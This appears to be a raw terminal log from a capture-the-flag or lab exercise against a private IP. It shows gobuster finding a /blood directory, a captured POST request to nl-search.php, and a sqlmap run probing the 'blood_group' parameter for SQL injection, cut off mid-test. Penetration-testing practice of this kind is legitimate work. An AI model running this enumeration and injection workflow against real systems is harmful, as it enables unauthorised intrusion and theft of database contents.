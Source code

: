 ```
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.60.177/
[+] Method:                  GET
[+] Threads:                 64
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2023/02/04 21:53:08 Starting gobuster in directory enumeration mode
===============================================================
/blood                (Status: 301) [Size: 194] [--> http://10.10.60.177/blood/]
Progress: 157125 / 220561 (71.24%)^C
[!] Keyboard interrupt detected, terminating.
===============================================================
2023/02/04 22:03:01 Finished
===============================================================

┌──(kali㉿kali)-[~/nappy/brutus]
└─$ cat req.txt         
POST /blood/nl-search.php HTTP/1.1
Host: 10.10.60.177
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 16
Origin: http://10.10.60.177
Connection: close
Referer: http://10.10.60.177/blood/nl-search.php
Cookie: PHPSESSID=j0nsjv2qg4qfbbnappstgqqo61
Upgrade-Insecure-Requests: 1

blood_group=A%2B

┌──(kali㉿kali)-[~/nappy/brutus]
└─$ sqlmap -r req.txt -p blood_group --dbs                      
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.6.12#stable}
|_ -| . [.]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 22:12:39 /2023-02-04/

[22:12:39] [INFO] parsing HTTP request from 'req.txt'
[22:12:40] [INFO] testing connection to the target URL
[22:12:40] [INFO] testing if the target URL content is stable
[22:12:41] [INFO] target URL content is stable
[22:12:41] [WARNING] heuristic (basic) test shows that POST parameter 'blood_group' might not be injectable
[22:12:42] [INFO] testing for SQL injection on POST parameter 'blood_group'
[22:12:42] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[22:12:43] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[22:12:44] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
```